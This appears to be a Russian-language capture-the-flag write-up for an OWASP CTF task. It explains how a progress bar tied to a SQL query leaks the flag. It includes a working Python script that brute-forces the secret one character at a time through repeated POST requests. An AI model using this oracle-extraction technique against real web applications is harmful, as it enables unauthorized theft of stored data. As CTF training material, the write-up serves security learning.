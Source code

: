 # Sumy (12.owaspctf.gq)

На странице выводится SQL запрос который будет выполяться и HTML форма для ввода строки.

```
SELECT LENGTH((SELECT flag from ctf))-LENGTH(REPLACE((SELECT flag from ctf), '[HERE]', ''))
```

В прогрессбаре внизу отображается результат: "разница" между нашей строкой и флагом.
Таким образом можно посимвольно перебрать флаг от нулевого до последнего байта.

`poc.py`:

```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

from __future__ import print_function
import re
import requests
import urllib3
import sys

url = 'https://12.owaspctf.gq/'

'''
,?ACFGILQS_abdegijklnopqrstuwy{}
'''
def leakBytes():
    leaked = ''
    for _ in xrange(256):
        _ = chr(_)
        response = requests.post(url, data={'query': _}, verify=False)
        result   = re.search(r'50% \{width: ([^px]+)', response.text)
        if not result:
            continue
        result   = float(result.group(1))
        if result > 0:
            leaked += _
    print('Leaked bytes = {!r}'.format(leaked))
    return leaked

def leakFlag():
    flag = 'FLAG{'
    leaked = leakBytes()

    while True:
        for _ in leaked:
            response = requests.post(url, data={'query': flag + _}, verify=False)
            result   = re.search(r'50% \{width: ([^px]+)', response.text)
            if not result:
                raise
            result = float(result.group(1))
            if result:
                flag += _
                if _ == '}':
                    print(flag)
                    sys.exit(0)
                print('{}...'.format(flag))

if __name__ == '__main__':
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    leakFlag()
```

`FLAG{A_SQL_query_goes_into_a_bar,_walks_up_to_two_tables_and_asks,_Can_I_join_you?}`
